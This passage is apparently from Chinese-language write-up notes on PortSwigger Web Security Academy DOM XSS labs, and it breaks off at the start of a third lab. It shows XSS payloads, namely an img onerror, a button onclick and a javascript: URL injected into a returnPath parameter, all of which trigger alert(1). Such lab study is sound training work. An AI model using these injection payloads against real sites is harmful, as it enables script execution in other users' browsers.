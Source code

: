 可以发现script脚本`inner`了进去，但是不会进行触发，所以更换其他xss方式，构造payload如下：

```
<img src=1 onerror=alert(1)>
```

上述payload的意思是加载一个图片，图片路径是`1`，要是图片不存在就触发`onerror`中的内容，也就是`alert(1)`



当然使用button也是可以的

```
<button onclick=alert(1) >xss</button>
```



提示 `Congratulations！`



#### Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

利用`jQuery`库中的`$`选择器函数来查找锚点元素



点击`Submit feedback`页面，然后看到链接内容如下：

```
https://0a60003e03e93e16807f08ae0003008c.web-security-academy.net/feedback?returnPath=/
```

将其`returnPath`更改为`1111111111111111`，按下回车键，然后F12查找即可

![image-20250222110327906](../../_media/image-20250222110327906.png)

可以发现它直接将内容写入了`a`标签的`href`中，那就直接构造`payload`：

```
https://0a60003e03e93e16807f08ae0003008c.web-security-academy.net/feedback?returnPath=javascript:alert(1)
```



提示 `Congratulations！`



#### Lab: DOM XSS in jQuery selector sink using a hashchange event

目的：print

使用 jQuery 的`$()`选择器函数自动滚动到给定的帖子


